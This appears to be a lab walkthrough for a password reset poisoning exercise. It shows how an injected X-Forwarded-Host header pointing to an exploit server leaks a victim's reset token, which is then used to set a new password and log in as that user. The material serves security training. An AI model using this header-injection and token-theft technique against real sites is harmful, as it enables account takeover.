 # Password Reset Poisoning via Middleware

This lab demonstrates a vulnerability in the password reset flow, where the `X-Forwarded-Host` header is blindly trusted by middleware, allowing us to hijack the reset token.

### 🛠 Step-by-step:

1. **Start BurpSuite** and keep it running.

2. Go to the lab page and click on **"Forgot your password?"**

3. Enter this username:  
wiener

Submit it.

4. In **BurpSuite → HTTP history**, find the `POST /forgot-password` request.

5. **Send it to Repeater.**

6. In the Repeater tab:
- Go to the **Headers** section.
- Add the following header:
  ```
  X-Forwarded-Host: exploit-0a19006d04484df280664eab01a200ce.exploit-server.net
  ```
- Go to the **Body** and change:
  ```
  username=wiener
  ```
  to:
  ```
  username=carlos
  ```

7. **Send the request.**

### 📜 Steal Carlos’s Token

8. Now go to your **Exploit Server → Access logs**.

9. You'll see something like this:
GET /forgot-password?temp-forgot-password-token=czerix0e9qq8xgqlywd68r073nhcy23u

10. Copy the **`temp-forgot-password-token`** value:  
 ```
 czerix0e9qq8xgqlywd68r073nhcy23u
 ```

### 🔗 Modify Reset Link

11. Open the **Email Client**.

12. Copy the **original reset link** at the bottom. Example:
 ```
 https://exploit-server.net/forgot-password?temp-forgot-password-token=abc123xyz
 ```

13. Replace the token in the URL with Carlos’s token:
 ```
 https://exploit-server.net/forgot-password?temp-forgot-password-token=czerix0e9qq8xgqlywd68r073nhcy23u
 ```

14. Paste the **modified link** in a new browser tab.

### ✅ Reset Carlos’s Password

15. Enter a new password for Carlos (example: `khan`) and submit.

16. Now go to the login page and enter:
- **Username**: `carlos`  
- **Password**: `khan`

🎉 **Lab Solved!**

### 🧠 Key Takeaway:

This lab teaches how trusting unvalidated headers like `X-Forwarded-Host` can lead to **reset token theft**, enabling full **account takeover**. Always sanitize and validate headers in middleware to prevent such attacks.
